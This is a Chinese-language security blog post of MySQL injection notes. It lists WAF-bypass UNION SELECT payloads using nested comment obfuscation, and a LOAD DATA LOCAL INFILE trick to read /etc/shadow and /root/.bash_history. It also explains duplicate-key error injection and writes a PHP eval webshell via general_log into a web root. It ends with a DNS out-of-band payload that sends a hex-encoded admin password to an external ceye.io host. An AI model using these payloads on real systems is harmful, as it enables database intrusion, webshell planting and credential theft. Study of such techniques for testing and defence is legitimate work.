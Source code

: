 ```yaml
---
title: mysql小记
date: 2018-4-5 8:50:30
tags: Web安全
toc: true
---
```


> 不管你是在研究什么事物，还是在思考任何观点，请只问你自己‘事实是什么’以及事实所证实的真理是什么。永远不要让自己被自己所更愿意相信的，或你认为人们相信了之后会对社会更加有益的东西所影响，只是简单的去审视，什么才是事实。--罗素

## sql Bypass dog
### 步骤
---
测试是否存在

and 1=1 绕过 %26%26 1 like 1  %26%26 1 in(1)

通常 order by 不会拦截

order by组合中间有空格才拦截，空格替换 /**/ 直接绕过

/*!order*/by 2   order%23%0aby 1

/**/被拦  中间加字母与 ' ; [] ~ 等

asp允许在每个字符前加% 如 union sel%ect 

参数污染
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/mysql1.png)

### 以下最新测试union可以Bypass dog(2018.4.1)
---

		原始语句
		select user()
		查user Bypass
		http://127.0.0.1/2.php?id=1/*!union/*!/*!*//*!select/*!/*!*//*!user/*!/*!()*/,2    
		查database
		http://127.0.0.1/2.php?id=1/*!union/*!/*!/*!select/*!/*!*//*!user/*!/*!/*!/*!()*/,/*!/*!/*!database/*!/*!/*!/*!()*/
		查表名
		union select group_concat(table_name) ,NULL from information_schema.tables where table_schema=database() 
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(table_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.tables/*!/*!*//*!where/*!/*!*//*!table_schema=/*!/*!*//*!database/*!/*!()*/
		union select group_concat(column_name) ,NULL from information_schema.columns where table_name = ""
		查列名
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(column_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.columns/*!/*!*//*!where/*!/*!*//*!table_name=""*/
		查值
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(concat(id,0x2c,content))/*!/*!*/,NULL/*!from/*!/*!table*/

group_concat与concat区别
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql2.png)

### FUZZ
---
借用从容大牛观点
以下[]为fuzz点。 

	select * from data where id=1 [] union [] select [] pwd [] from [] pwd

### innodb_table_stats查表
---
innodb从5.5开始成为默认引擎
mysql 5.6有mysql库中有innodb_index_stats，innodb_table_stats表，
innodb_index_stats存储着innodb引擎的库名，表名，对应索引
innodb_table_stats存储着innodb引擎的库名，表名
以下payload可查表名，

	select table_name from mysql.innodb_table_stats where database_name = database()

### 低权限读文件
---
如果没有权限，mysql还有个低权限读文件漏洞，/etc/shadow /root/.bash_history都可以读出来。

	MYSQL 5.5.53
	drop table mysql.m1
	CREATE TABLE mysql.m1 (code TEXT );
	LOAD DATA LOCAL INFILE '/root/.bash_history' INTO TABLE mysql.m1 fields terminated by ''
	select * from mysql.m1

## mysql主键重复报错原理
---

rand&group by&count缺一不可  
rand(0)每次查询一样  
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/mysql3.png) 
floor(rand(0)*2)取整如下  
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/mysql4.png)

select count(*) from runoob group by floor(rand(0)*2);  
floor(rand(0)*2)计算结果为 011011...  
在使用group by时，查询有rand()会被执行多次，如果建的虚表中不存在，则在再次执行。  
查询流程:

1. 建立虚表

key | count(*)
---- | ----


2. 执行floor(rand(0)*2) 为0表中没，再次执行结果为1插入

| key | count(*) |
| :--: | :--:    |
| 1    |     1   |

3. 第一次计算为1，不进行2次计算，count(*)+1

| key | count(*) |
| :--: | :--:    |
| 1    |     2   |

4. 计算为0，没有0，尝试插入，在插入时再次计算结果作为虚表主键，值为1冲突。

## mysql写shell
---

5.5，5.7通过log写。

小于5.5且secure_file_priv不为NULL,通过load_file() into dumpfile写。

[udf提权](https://xz.aliyun.com/t/2167)

### 原因
---
secure_file_priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

MySQL5.5版本：my.ini中无此参数，查询该参数情况为NULL

MySQL5.6版本：my.ini中无此参数，查询该参数情况为空

MySQL5.7版本：my.ini中有此参数，查询该参数情况为数据目录下的Upload文件夹

通过show variables like ‘%secure%’;查看参数情况，参数可在my.ini中改，重启生效。

### dumpfile和oufile区别
---

into outfile 函数会在行末端写入新行，是会转义换行符

这样的话这个2进制可执行文件就会被破坏，即格式化的数据。

into dumpfile 就能导出一个完整能执行的2进制文件

udf提权5.5版本默认没plugin目录，使用NTFS的ADS流创建(试了没成功)

	select 'aa' into dumpfile 'C:\\phpStudy\\PHPTutorial\\MySQL\\plugin::$INDEX_ALLOCATION';		//利用NTFS ADS创建plugin目录  
	select 'aa' into dumpfile 'C:\\phpStudy\\PHPTutorial\\MySQL\\lib::$INDEX_ALLOCATION';    //利用NTFS ADS创建lib目录  

通过general_log，general_log_file写shell。

置general为ON，general_log_file记录执行语句，执行包含的payload即可.

具体过程如下：

	show variables like '%general%';查看默认日志位置
	set global general_log = on;
	set global general_log_file = 'C:/Program Files (x86)/Apache Software Foundation/Apache2.2/htdocs/abouts.php'; 指定为目标网站的物理路径
	select '<?php eval($_POST[aaa]);?>'; 写shell
	还原：
	set global general_log_file = 'C:\ProgramData\MySQL\MySQL Server 5.5\Data\2018R2DC.log';
	set global general_log = off;  

## sql OOB
---

![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/mysql5.png)
原理：dns查询带出数据

win利用

UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。CONCAT()函数4个\，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

payload

		select load_file(CONCAT('\\\\',(SELECT hex(pass) 
		FROM test WHERE name='admin'),'.uudjoj.ceye.io\\ff'))
		
Dnslog平台http://ceye.io
